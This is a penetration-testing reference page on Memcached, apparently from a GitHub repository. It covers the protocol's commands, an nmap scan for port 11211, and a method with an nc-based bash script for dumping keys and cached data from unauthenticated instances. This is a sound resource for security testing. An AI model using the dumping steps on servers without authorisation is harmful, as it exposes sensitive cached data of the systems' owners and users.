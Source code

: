 # Memcached

### Overview

`Memcached` is a distributed in-memory key-value store caching system. It is
often used to speed up dynamic database-driven websites by caching data and
objects in RAM to reduce the number of times an external data source (such as a
database or API) must be read.

`Memcached` is a free and open-source software written in	`C`, that runs on
Unix-like operating systems (at least Linux and OS X) and on Microsoft Windows.

`Memcached`'s APIs provide a very large hash table distributed across multiple
machines. When the table is full, subsequent inserts cause older data to be
purged in `least recently used (LRU)` order. Expired items are removed first
then the least used items are overwritten so that the frequently requested
information can be retained in memory.

`Memcached` is widely used for large scale web application, including major
players like YouTube, Reddit, Facebook, Twitter, and Wikipedia.

`Memcached` supports the only following data structure, called an "item" which
consists of:
  - A key (arbitrary string up to 250 bytes in length. No space or newlines
    for ASCII mode)
  - A 32bit "flag" value
  - An expiration time, in seconds.
    '0' means never expire. Can be up to 30 days.
  - A 64bit "CAS" value, which is kept unique.
  - Arbitrary item data

###### Supported commands

`Memcached` handles a small number of basic commands:

| Command | Description | Example |
|---------|-------------|---------|
| `version` | Print memcached version | version |
| `verbosity` | Increases log level | verbosity |
| `stats` | Prints general memcached instance statistics | stats |
| `stats slabs` | Prints memory statistics including number of active slabs | stats slabs |
| `stats items` | Prints items stored broken down by slab | stats items <br/> STAT items:<SLAB_ID\>:number 1 <br/> ... |
| `stats cachedump <SLAB_ID/> <NUMBER_OF_KEYS/>` | Undocumented command that still exists in 1.4.5 but might be removed at anytime. <br/> Prints keys per slab id, limited to dump of one page (1MB of data) | stats cachedump 3 100 |   
| `stats malloc` <br/> `stats detail` <br/> `stats sizes` <br/> `stats reset` | Prints others statistics information | stats ... |
| `get <KEY\>` |	Reads the value associated to the specified key | get key1 |
| `set <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\>` |	Set a key and its associated parameters and data | set key1 0 60 4 \r\ndata\r\n |
| `add <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\>` | Add a new key and its associated parameters and data | add key2 0 60 5 \r\ndata2\r\n |
| `replace <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\>` | Overwrite existing key and its associated parameters and data | add key1 0 60 5 \r\ndata1\r\n |
| `append <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\>` | Append data to the specified existing key | append key2 0 60 15 |
| `prepend <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\>` |	Prepend data to existing key | prepend key2 0 60 15 |
| `incr <KEY\> <NUMBER\>` | Increments numerical key value by given number | incr key_int 2 |
| `decr <KEY\> <NUMBER\>` | Decrements numerical key value by given number | decr key_int 2 |
| `delete <KEY\>` | Deletes the specified existing key | delete key2 |
| `flush_all` |	Invalidate all items immediately | flush_all |
| `flush_all <N\>` |	Invalidate all items in the specified number of seconds | flush_all 60 |
| `quit` | Terminate current session | quit|

### Network scan

`nmap` can be used to scan the network for memcached services:

```
# memcached supports both TCP and UDP
nmap -sS -sU -v -p 11211 -sV -sC -oA nmap_memcached <RANGE | CIDR>
```

### Unrestricted keys dumping

As most deployments of memcached are within trusted networks, no authentication
mechanism is implemented by default. Thus clients may connect freely to the
memcached instance to retrieve the content cached, which may contain sensible
information.

The dumping of the keys and their associated data relies on the undocumented
command `stats cachedump`, which is needed to retrieve the keys. The command
could be removed at anytime.

The process to dump the memcached keys and values is as follow:

```
# Retrieve slabs identifier
stats items
-> STAT items:<SLAB_ID>:...

# Retrieve the keys within the slab specified. Maximum number of keys: 1000
stats cachedump <SLAB_ID> <NUMBER_OF_KEYS>
-> ITEM <KEY> [24625 b; 1549536086 s] ...

# Retrieve the data associated to the key specified
get <KEY>
-> VALUE <KEY> 0 24625 <DATA>
```

The following bash script, courtesy of Omar Al-Ithawi, can be used to automate
the process above. Note that the script is not adapted for larger memcached
instance.

```
#!/usr/bin/env bash

echo 'stats items'  \
| nc <HOST> 11211  \
| grep -oe ':[0-9]*:'  \
| grep -oe '[0-9]*'  \
| sort  \
| uniq  \
| xargs -L1 -I{} bash -c 'echo "stats cachedump {} 1000" | nc <HOST> 11211'
```

--------------------------------------------------------------------------------

### References

https://lzone.de/cheat-sheet/memcached
https://stackoverflow.com/questions/19560150/get-all-keys-set-in-memcached
